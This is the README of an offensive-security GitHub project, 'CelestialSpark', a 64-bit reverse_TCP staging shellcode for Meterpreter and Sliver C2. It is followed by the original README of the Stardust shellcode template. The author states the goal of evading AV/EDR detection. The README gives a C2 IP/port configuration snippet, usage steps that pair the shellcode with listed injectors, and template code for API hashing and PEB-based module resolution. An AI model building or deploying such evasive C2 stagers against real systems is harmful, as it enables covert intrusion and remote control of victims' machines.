# CelestialSpark

A modern 64-bit position independent meterpreter and Sliver compatible reverse_TCP Staging Shellcode based on Cracked5piders Stardust

```c++
#include <common.h>
#include <constexpr.h>
#include <resolve.h>

using namespace stardust;

// Define IP adress of your C2 Stager
#define IP_STR  "10.10.10.10"
// Define PORT 443 of your C2 Stager
#define PORT 443
```

## Why
I wanted to improve my understanding of position independent Shellcode, plus... My Meterpreter reverse_TCP Stager gets caught by a lot of AV/EDRs and I was hoping to somehow get around the IoCs the 15 year old Meterpreter reverse_TCP Shellcode generated by msfvenom.
Inspirations were:
- https://github.com/SherifEldeeb/TinyMet
- https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_reverse_tcp.asm

## How does it work
- not existing HTONS and HTONL functions have been hardcoded
- custom inet_addr function was rewritten and implemented in main.cc
- Socket creation and interaction functions have been imported from ws2_32.dll
- Meterpreter Staging Logic hase been copied from the original project and TinyMet

## Usage
- Git clone
- change IP and Port in main.cc
- disable the messagebox right before the Stage2 shellcode execution (if it bothers you)
- make
- Use your favourite Shellcode Loader/Injector. I Successfully tested:
    - https://github.com/Cipher7/ChaiLdr
    - https://github.com/florylsk/ExecIT
    - https://github.com/3xpl01tc0d3r/ProcessInjection
    - the original Stardust Loader and Stomper written by [Cracked5pider](https://github.com/Cracked5pider)

End of CelestialSpark
# Original Readme from here

# Stardust

A modern and easy to use 32/64-bit shellcode template.

- raw strings 
- C++20 project 
- uses compile time hashing with fnv1a for both function and module resolving  

### Basic Usage

resolving modules from PEB using `resolve::module`:
```c++
if ( ! (( ntdll.handle = resolve::module( expr::hash_string<wchar_t>( L"ntdll.dll" ) ) )) ) {
    return;
}

if ( ! (( kernel32.handle = resolve::module( expr::hash_string<wchar_t>( L"kernel32.dll" ) ) )) ) {
    return;
}
```

resolving function apis using either `RESOLVE_API` macro or `resolve::api` function:
```c++
const auto user32 = kernel32.LoadLibraryA( symbol<const char*>( "user32.dll" ) );

decltype( MessageBoxA ) * msgbox = RESOLVE_API( reinterpret_cast<uintptr_t>( user32 ), MessageBoxA );

msgbox( nullptr, symbol<const char*>( "Hello world" ), symbol<const char*>( "caption" ), MB_OK );
```
The `RESOLVE_API` is a wrapper around `resolve::api` to automatically hashes the function name and cast the function pointer to the function type.

string hashing for both UTF-8 and UTF-16 using the compile time `expr::hash_string` function:
```c++
auto user32_hash      = expr::hash_string<wchar_t>( L"user32.dll" );
auto loadlibrary_hash = expr::hash_string<char>( "LoadLibraryA" );
```

raw strings support for both 32/64-bit by using the `symbol` function: 
```c++
auto caption_string = symbol<const char*>( "hello from stardust" );

user32.MessageBoxA( nullptr, caption_string, symbol<const char*>( "message title" ), MB_OK );
```

easy to add new apis and modules to the instance. Under `include/common.h` the following entry has to be made:
```c++
class instance {
    ...
    
    struct
    {
        uintptr_t handle; // base address to user32.dll

        struct {
            D_API( MessageBoxA );
            // more entries can be added here
        };
    } user32 = {
        RESOLVE_TYPE( MessageBoxA ),
        // more entries can be added here 
    };
    
    ...
```
while the ``src/main.cc`` should resolve the base address of user32 and resolve the api pointer:
```c++

declfn instance::instance(
    void
) {
    ...
    //
    // resolve user32.dll from PEB if loaded 
    if ( ! (( user32.handle = resolve::module( expr::hash_string<wchar_t>( L"user32.dll" ) ) )) ) {
        return;
    }

    //
    // automatically resolve every entry imported
    // by user32 from the structure 
    RESOLVE_IMPORT( user32 );
    ...
}

```

semi friendly debugging capabilities via DbgPrint. The project althought needs to be compiled in debug mode by specifying ``make debug``. Usage: 
```c++
const auto user32 = kernel32.LoadLibraryA( symbol<const char*>( "user32.dll" ) );

if ( user32 ) {
    DBG_PRINTF( "oh wow look we loaded user32.dll -> %p\n", user32 );
} else {
    DBG_PRINTF( "okay something went wrong. failed to load user32 :/\n" );
}

DBG_PRINTF( "running from %ls (Pid: %d)\n",
    NtCurrentPeb()->ProcessParameters->ImagePathName.Buffer,
    NtCurrentTeb()->ClientId.UniqueProcess );

DBG_PRINTF( "shellcode @ %p [%d bytes]\n", base.address, base.length );
```

### Building 

Build in release mode: 
```shell
$ make                                                                                                                                                                                                                                                                                  20:17:26
-> compiling src/main.cc to main.x64.obj
-> compiling src/resolve.cc to resolve.x64.obj
compiling x64 project
/usr/bin/x86_64-w64-mingw32-ld: bin/stardust.x64.exe:.text: section below image base
-> compiling src/main.cc to main.x86.obj
-> compiling src/resolve.cc to resolve.x86.obj
compiling x86 project
/usr/bin/i686-w64-mingw32-ld: bin/stardust.x86.exe:.text: section below image base
$ ll bin                                                                                                                                                                                                                                                                                20:57:10
drwxr-xr-x spider spider 4.0 KB Thu Mar 13 20:57:10 2025 obj
.rw-r--r-- spider spider 752 B  Thu Mar 13 20:57:10 2025 stardust.x64.bin
.rw-r--r-- spider spider 672 B  Thu Mar 13 20:57:10 2025 stardust.x86.bin
```

Build in debug mode: 
```shell
$ make debug                                                                                                                                                                                                                                                                            20:57:14
-> compiling src/main.cc to main.x64.obj
-> compiling src/resolve.cc to resolve.x64.obj
compiling x64 project
/usr/bin/x86_64-w64-mingw32-ld: bin/stardust.x64.exe:.text: section below image base
-> compiling src/main.cc to main.x86.obj
-> compiling src/resolve.cc to resolve.x86.obj
compiling x86 project
/usr/bin/i686-w64-mingw32-ld: bin/stardust.x86.exe:.text: section below image base
$ ll bin                                                                                                                                                                                                                                                                                20:58:13
drwxr-xr-x spider spider 4.0 KB Thu Mar 13 20:58:13 2025 obj
.rw-r--r-- spider spider 1.2 KB Thu Mar 13 20:58:13 2025 stardust.x64.bin
.rw-r--r-- spider spider 1.1 KB Thu Mar 13 20:58:13 2025 stardust.x86.bin
```

## Demo
x64:
![x64](./static/stomper.x64.png)

x86:
![x86](./static/stomper.x86.png)
